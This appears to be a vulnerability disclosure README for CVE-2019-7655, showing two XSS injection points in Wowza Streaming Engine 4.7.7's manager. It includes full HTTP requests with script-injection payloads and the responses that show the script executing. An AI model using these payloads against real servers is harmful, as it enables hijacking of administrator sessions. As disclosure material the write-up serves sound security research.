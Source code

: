 # CVE-2019-7655-XSS-Wowza
Wowza Streaming Engine 4.7.7 suffers from multiple authenticated XSS vulnerabilities via the (1) customList%5B0%5D.value field in enginemanager/server/serversetup/edit_adv.htm of the Server Setup configuration or the (2) host field in enginemanager/j_spring_security_check of the login form.


### XSS(1)
User input is used inside a javascript function. By crafting a special payload, it is possible to alter the function and inject malicious content without breaking functionality.

<br />
By sending the following payload:

```
POST /enginemanager/server/serversetup/edit_adv.htm HTTP/1.1
Host: 172.17.60.171:8088
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.17.60.171:8088/enginemanager/Home.htm
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 383
Cookie: JSESSIONID=2bd567a3c22e0d2d7b4fdb9f6b935c48; lastMangerHost=http%3A//localhost%3A8087; showRightRail=true; lastTab=Advanced; DoNotShowFTU=true
Connection: close

vhost=_defaultVHost_&advSection=Custom&customList%5B0%5D.documented=false&customList%5B0%5D.enabled=true&customList%5B0%5D.type=String&customList%5B0%5D.sectionName=Server&customList%5B0%5D.section=%2FRoot%2FServer&customList%5B0%5D.name=asdasd&customList%5B0%5D.removed=false&customList%5B0%5D.value=asala";} alert("XSS ServerSetup"); if("true") { var a = "&advPath=%2FRoot%2FServer
```

<br />
The initTableDataProperties() function gets injected with malitious code:

```
HTTP/1.1 200 OK Server: Winstone Servlet Engine v1.0.5 Content-Type: text/html;charset=UTF-8 Connection: Close Date: Tue, 22 Jan 2019 13:34:59 GMT X-Powered-By: Servlet/2.5 (Winstone/1.0.5) Content-Language: en 
***TRUNCATED***
<script>
var tblDataProperties = new Array();
var tblIdxProperties=0;

initTableDataProperties();
updateTableProperties();

function initTableDataProperties()
{
	
		if("true") 
		{
			var newItem = new Object();
			newItem.orgIdx = tblIdxProperties++;
			newItem.added=false;
			newItem.removed="false"==="true";
			newItem.enabled="true"==="true";
			newItem.name="asdasd";
			newItem.value="asala";} alert("XSS ServerSetup"); if("true") { var a = "";
			newItem.type="String";
			newItem.section="/Root/Server";
			newItem.sectionName="Server";
			newItem.documented="false"==="true";
			newItem.uiBooleanValue="false"==="true";
			tblDataProperties.push(newItem);
		}
		
	
}
***TRUNCATED***
```

<br />
The injected code runs in the client browser:
<img src="Wowza-XSS(1).png">



### XSS(2)

<img src="Wowza-XSS(2)1.png">

Request:
```
POST /enginemanager/j_spring_security_check?wowza-page-redirect= HTTP/1.1
Host: 192.168.1.180:8088
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.1.180:8088/enginemanager/login.htm
Cookie: JSESSIONID=324c96d4de48fedbc282e9718f35f56d; DoNotShowFTU=true; lastMangerHost=http%3A//http%3A//192.168.1.180%3A8088%3Cscript%3Ealert%28%22XSS%22%29%3C/script%3E; showRightRail=true; lastTab=Basic
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 167

wowza-page-redirect=&j_username=ffff&j_password=ffff&authType=digest&host=http%3A%2F%2Fhttp%3A%2F%2F192.168.1.180%3A8088%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E
```

Response:
```
HTTP/1.1 200 OK 
Server: Winstone Servlet Engine v1.0.5 
Content-Type: text/html;charset=UTF-8 
Connection: Close Date: Sun, 27 Jan 2019 22:31:56 GMT 
X-Powered-By: Servlet/2.5 (Winstone/1.0.5) 
Content-Language: en 
***TRUNCATED***
			Sign In
	

				</h2>
				
					<div id="loginError" class="alert alert-danger"
						style="word-wrap: break-word">
						<!-- Your username or password is incorrect, please try again.
			<br /> Caused : -->
						Wowza Streaming Engine Manager could not connect to the Wowza Streaming Engine service(http://http://192.168.1.180:8088<script>alert("XSS")</script>). Verify that the Wowza Streaming Engine service has started and is running.
					</div>

***TRUNCATED***

```

<br />
<img src="Wowza-XSS(2)2.png">

